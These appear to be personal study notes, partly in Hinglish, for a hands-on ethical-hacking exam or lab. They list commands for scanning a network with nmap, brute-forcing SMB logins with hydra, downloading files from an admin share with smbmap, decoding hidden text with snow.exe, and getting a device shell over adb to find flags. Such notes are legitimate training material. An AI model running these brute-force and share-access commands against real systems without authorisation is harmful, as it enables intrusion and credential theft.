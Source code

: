 FQDN of the Domain Controller. 

$foot print Domain kese krey
nmap -T4 -A -p 389,636,3268,3269 192.168.x.x/2x
or
nmap -p 389 --script ldap-rootdse <target_IP>

Admin wala ans hoga
----------------------------------------------------------------------------------------------------------------------------------------
Ip address of the server running Wampserver.

How to scan network
nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

Look for specific banners or headers that indicate the presence of WampServer. This may include strings like "WampServer" or "Apache" in HTTP response headers or a the existense of MySql service

---------------------------------------------------------------------------------------------------------------------------------------------
Crack the SMB credentials for user and obtain file containing an encoded secret.

How to exploit smb
nmap -T4 -A -p 139,445 192.168.x.x/2x
OR
nmap -p 139,445 -sV 192.168.x.x/2x

Brute force SMB with hydra
hydra -l USER_NAME -P password_file TARGET_IP smb

Once SMB credentials are obtained, you can use tools like smbclient 
to connect to the SMB share and retrieve files.
smbclient //target_ip/ -U USER_NAME 
get file.txt
OR 
smbmap -u USER_NAME -p 'PASSWORD' -H TARGET_IP --download 'C$\file.txt'

Decrypt Encoded File:
Use bctextencoder or any other tool to decrypt the file using the users password
OR
snow.exe -C -p “password” file.txt

---------------------------------------------------------------------------------------------------
Malicious elf files 

Phle nmap scan krke IP  ptaa kro ki adp port 5555 kis ip mai open hai fir us ip se connect kro
#command- adb connect 127.0.0.0:5555
adb connect ho jayega shell kaa access mil jayega uske baad mobile ke andr flag dhundo
#commands: 
adb shell - shell open kro file dhundo and fir entropy calculate krna hai

#command: ent file.elf   - entrophy calculate krne ke liye
fir SHA ki hash ki value calculate kro 
#command- sha384sum file.txt - isme jo bhi value hogi question ke according flag daal do
